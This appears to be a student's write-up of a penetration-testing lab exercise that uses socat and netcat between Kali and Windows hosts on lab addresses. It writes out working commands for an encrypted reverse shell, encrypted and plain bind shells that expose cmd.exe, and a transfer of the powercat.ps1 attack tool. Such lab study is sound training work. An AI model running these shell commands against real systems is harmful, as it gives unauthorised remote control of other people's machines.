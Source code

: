 ### 4.2.4.1 Exercise

#### 1. Use socat to transfer powercat.ps1 from your Kali machine to your Windows system. Keep the file on your system for use in the next section.

From Linux:

```bash
# Installed powercat because it was missing
sudo apt-get install powercat
# Located powercat
sudo updatedb
locate powercat.ps1
# Started socat listener 
sudo socat TCP4-LISTEN:443,fork file:/usr/share/windows-resources/powercat/powercat.ps1
```

From Windows:

```powershell
socat TCP4:192.168.119.216:443 file:powercat.ps1,create
```

##### 2. Use socat to create an encrypted reverse shell from your Windows system to your Kali machine.

Linux: `sudo socat -d -d OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork STDOUT`

Windows: `socat OPENSSL:192.168.119.216:443,verify=0 EXEC:cmd.exe,pipes`

![image-20200606174550832](.4.2.4.1%20Exercise.assets/image-20200606174550832.png)

##### 3. Create an encrypted bind shell on your Windows system. Try to connect to it from Kali without encryption. Does it still work?

Transfer PEM file

Linux:  `socat TCP4-LISTEN:443,fork file=bind_shell.pem`

Windows: 

```powershell
# Grab cert from Linux
socat TCP:192.168.119.216:443 file:bind_shell.pem,create
# Start SSL socat server
socat -d -d OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:cmd.exe,pipes
```

Linux:

```bash
# Connect to socat server without SSL
socat TCP4:192.168.216.10:443 STDOUT
```

Thankfully, it does not work.

![image-20200606195006083](.4.2.4.1%20Exercise.assets/image-20200606195006083.png)

![image-20200606195024562](.4.2.4.1%20Exercise.assets/image-20200606195024562.png)

##### 4. Make an unencrypted socat bind shell on your Windows system. Connect to the shell using Netcat. Does it work?  

Windows:

```bash
# Setup socat server
socat -d -d TCP4-LISTEN:443,fork EXEC:cmd.exe,pipes
```

Linux:

```bash
# Connect with netcat
nc -nv 192.168.216.10 443
```

Praise God, it works!

![image-20200606195146217](.4.2.4.1%20Exercise.assets/image-20200606195146217.png)

![image-20200606195201315](.4.2.4.1%20Exercise.assets/image-20200606195201315.png)

